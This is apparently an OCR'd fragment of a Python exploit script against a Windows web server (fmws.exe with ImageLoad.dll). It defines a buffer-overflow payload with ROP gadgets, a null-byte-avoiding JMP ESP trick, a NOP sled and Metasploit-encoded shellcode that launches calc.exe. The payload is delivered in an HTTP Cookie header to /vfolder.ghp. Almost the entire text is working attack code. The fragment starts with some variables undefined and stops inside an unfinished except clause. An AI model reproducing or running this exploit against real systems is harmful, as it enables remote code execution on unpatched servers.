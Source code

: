 ```python
junk1="\x90" * 280
ppr=pack('<L',0x10010101) # POP EBX # POP ECX # RETN [ImageLoad.dll]

# Since 0x00 would break the exploit, the 0x00457452 (JMP ESP [fmws.exe]) needs to be crafted on the stack
crafted_jmp_esp=pack('<L',0xA445ABCF)

test_bl=pack('<L',0x10010125) # contains 00000000 to pass the JNZ instruction

kungfu=pack('<L',0x10022aac)  # MOV EAX,EBX # POP ESI # POP EBX # RETN [ImageLoad.dll]
kungfu+=pack('<L',0xDEADBEEF) # filler
kungfu+=pack('<L',0xDEADBEEF) # filler
kungfu+=pack('<L',0x1001a187) # ADD EAX,5BFFC883 # RETN [ImageLoad.dll] # finish crafting JMP ESP
kungfu+=pack('<L',0x1002466d) # PUSH EAX # RETN [ImageLoad.dll]

nopsled="\x90" * 70

# windows/exec CMD=calc.exe 
# Encoder: x86/shikata_ga_nai
# powered by Metasploit 
# msfpayload windows/exec CMD=calc.exe R | msfencode -b '\x00\x0a\x0d'

shellcode=("\xda\xca\xbb\xfd\x11\xa3\xae\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x17\x83\xc2\x04\x03\xa7\x02\x41\x5b\xab" +
"\xcd\x0c\xa4\x53\x0e\x6f\x2c\xb6\x3f\xbd\x4a\xb3\x12\x71" +
"\x18\x91\x9e\xfa\x4c\x01\x14\x8e\x58\x26\x9d\x25\xbf\x09" +
"\x1e\x88\x7f\xc5\xdc\x8a\x03\x17\x31\x6d\x3d\xd8\x44\x6c" +
"\x7a\x04\xa6\x3c\xd3\x43\x15\xd1\x50\x11\xa6\xd0\xb6\x1e" +
"\x96\xaa\xb3\xe0\x63\x01\xbd\x30\xdb\x1e\xf5\xa8\x57\x78" +
"\x26\xc9\xb4\x9a\x1a\x80\xb1\x69\xe8\x13\x10\xa0\x11\x22" +
"\x5c\x6f\x2c\x8b\x51\x71\x68\x2b\x8a\x04\x82\x48\x37\x1f" +
"\x51\x33\xe3\xaa\x44\x93\x60\x0c\xad\x22\xa4\xcb\x26\x28" +
"\x01\x9f\x61\x2c\x94\x4c\x1a\x48\x1d\x73\xcd\xd9\x65\x50" +
"\xc9\x82\x3e\xf9\x48\x6e\x90\x06\x8a\xd6\x4d\xa3\xc0\xf4" +
"\x9a\xd5\x8a\x92\x5d\x57\xb1\xdb\x5e\x67\xba\x4b\x37\x56" +
"\x31\x04\x40\x67\x90\x61\xbe\x2d\xb9\xc3\x57\xe8\x2b\x56" +
"\x3a\x0b\x86\x94\x43\x88\x23\x64\xb0\x90\x41\x61\xfc\x16" +
"\xb9\x1b\x6d\xf3\xbd\x88\x8e\xd6\xdd\x4f\x1d\xba\x0f\xea" +
"\xa5\x59\x50")

payload=junk0 + old_call_edx + junk1 + ppr + crafted_jmp_esp + test_bl + kungfu + nopsled + shellcode

payload2 = junk0 + old_call_edx + junk1 + ppr + crafted_jmp_esp + test_bl + rop_chain + nopsled + shellcode

buf="GET /vfolder.ghp HTTP/1.1\r\n"
buf+="User-Agent: Mozilla/4.0\r\n"
buf+="Host:" + host + ":" + str(port) + "\r\n"
buf+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buf+="Accept-Language: en-us\r\n"
buf+="Accept-Encoding: gzip, deflate\r\n"
buf+="Referer: http://" + host + "/\r\n"
buf+="Cookie: SESSIONID=1337; UserID=" + payload2 + "; PassWD=;\r\n"
buf+="Conection: Keep-Alive\r\n\r\n"

print "[*] Connecting to Host " + host + "..."

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    connect=s.connect((host, port))
    print "[*] Connected to " + host + "!"
except:
```